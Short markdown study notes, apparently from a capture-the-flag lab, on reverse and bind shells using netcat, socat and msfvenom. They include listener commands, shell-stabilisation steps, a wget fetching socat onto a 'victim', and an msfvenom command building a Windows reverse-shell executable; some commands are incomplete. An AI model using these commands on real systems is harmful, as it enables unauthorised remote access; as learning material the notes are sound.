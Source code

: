 Netcat<br>
Socat - netcat on steroids<br>
MSFvenom<br>
Multi/handler/<br>




## Shell Types
- Reverse Shells - connects back
- bind shells - remote code execution



## Common Commands
<font color=red> nc -lvnp <port-number></font>


- -l is used to tell netcat that this will be a listener
- -v is used to request a verbose output
- -n tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.
- -p indicates that the port specification will follow.


# Techniques
 ## 1. Python
 - python -c 'import pty;pty.spawn("/bin/bash")'
 - export TERM=xterm <font color=pink> gives access to commnads</font>
 - stty raw -echo; fg <font color=pink>removes echo of our own shell and foregrounds the process</font>

## 2. rlwrap
- rlwrap nc -lvnp <port>
- stty raw -echo; fg

## 3. Socat
- wget IP /socat -O /tmp/socat
- stty rows number



### Creating and deploying socat on victim
- openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
- cat shell.key shell.crt > shell.pem


## 4 Msfvenom
 - msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=IP LPORT=port

 StageLess Payloads ( _ )
 Staged Payloads (/)